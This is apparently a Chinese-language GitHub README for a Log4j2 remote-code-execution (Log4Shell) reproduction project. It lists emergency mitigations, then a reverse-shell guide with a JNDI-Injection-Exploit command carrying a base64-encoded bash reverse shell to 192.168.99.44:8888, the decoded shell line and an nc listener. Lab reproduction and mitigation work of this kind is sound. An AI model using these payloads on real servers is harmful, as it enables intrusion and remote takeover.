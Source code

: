 # Apache Log4j 2 
![GitHub Workflow Status](https://img.shields.io/github/workflow/status/dbgee/log4j2_rce/rce%20CI)
[![GitHub issues](https://img.shields.io/github/issues/dbgee/log4j2_rce)](https://github.com/dbgee/log4j2_rce/issues)

Apache log4j2 开源日志组件远程代码执行

> 攻击者通过构造恶意请求，触发服务器log4j 2 日志组件的远程代码执行漏洞。漏洞无需特殊配置，经验证，最新版的补丁可以防护此问题

[官方最新补丁： log4j-2.15.0-rc2](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2)

## 紧急处置方案
1. 2.10 or 以上：添加环境变量  LOG4J_FORMAT_MSG_NO_LOOKUPS="true" 或 修改jvm参数 -Dlog4j2.formatMsgNoLookups=true
2. 2.7 or 以上：log4j config file 中用%m(nolookups) 代替 %m 
3. 2.0-beta9 or 以上: 删除jar 包中的org/apache/logging/log4j/core/lookup/JndiLookup.class
4. 通过防火墙自定义规则，限制`jndi` 、`ldap`、`rmi` 等恶意payload
5. 漏洞探测大多采用dnslog 等带外方式，可以禁掉服务器主动外联权限

## 漏洞复现
[详细复现步骤参考 fastjson-rce](https://github.com/dbgee/fastjson-rce)   ，与fastjson 的复现一致，只是使用的pom 文件不同而已

* 需要注意2.14.1 不能稳定复现，建议采用2.8.x 版本

## 环境下载
[log4j2_rce-0.0.1.jar](https://github.com/dbgee/log4j2_rce/releases/tag/0.0.1) 

## 反弹shell 指引
1. 下载命令执行工具，也可以编译Exploit.java 将计算器换成Linux反弹代码，这里为了方便直接使用 [JNDI-Injection-Exploit-1.0.jar](./shell/JNDI-Injection-Exploit-1.0.jar)
2. 开启利用工具 `java -jar JNDI-Injection-Exploit-1.0.jar -C "bash -c {echo,YmFzaCAtaSA+IC9kZXYvdGNwLzE5Mi4xNjguOTkuNDQvODg4OCAwPiYx}|{base64,-d}|{bash,-i}" -A  "192.168.99.44"`
    1. 命令说明：-C  指定要执行的命令，-A 指定监听端口所在IP（一般为本机IP）
    2. base64 编码部分为Linux 反弹shell  `bash -i > /dev/tcp/192.168.99.44/8888 0>&1`
    3. 将利用工具生成的jndi links 放入postman payload 中
3. 本地开启nc 监听 `nc -Lvvp 888`
4. 发送payload 到目标服务器，反弹shell 成功
5. 利用过程截图: ![利用结果](./shell/shell.png)、![服务器端输出](./shell/output.png)

